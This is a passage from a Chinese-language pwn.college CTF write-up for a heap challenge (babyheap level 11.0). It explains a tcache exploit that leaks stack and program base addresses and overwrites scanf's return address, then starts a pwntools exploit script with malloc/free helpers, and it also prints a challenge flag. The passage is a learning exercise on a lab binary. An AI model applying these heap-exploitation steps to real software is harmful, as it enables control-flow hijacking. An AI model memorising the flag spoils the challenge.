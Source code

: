 ```python
    main()
```

## Flag

:spoiler[`pwn.college{IVJX2ecO9cCeTd-08IgNfDhvyxY.0FM5MDL5cTNxgzW}`]

# Level 11.0

## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to gain control flow.

## Write-up

和上题类似的 goal，控制返回地址为 win 即可。但是这次没有告诉我们任何地址，需要手动泄漏栈地址和程序基地址。

那还不简单，echo 可以泄漏 ptr 中的地址加上偏移处的值，如果我们知道了栈地址，那只要令 ptr 中保存栈地址我们就可以泄漏任意偏移处的值了。

:::important
做这题的时候突然发现 `scanf("%0s", buf)` 其实是可以接收输入的，`%0s` 是未定义行为，会接收任意大小输入……我本来以为不行，还想在栈上伪造 chunk 来着，现在知道原来没必要。所以我们最后直接覆盖 scanf 的返回地址就好了，连 canary 都不需要泄漏……
:::

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    p64,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level11.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())

```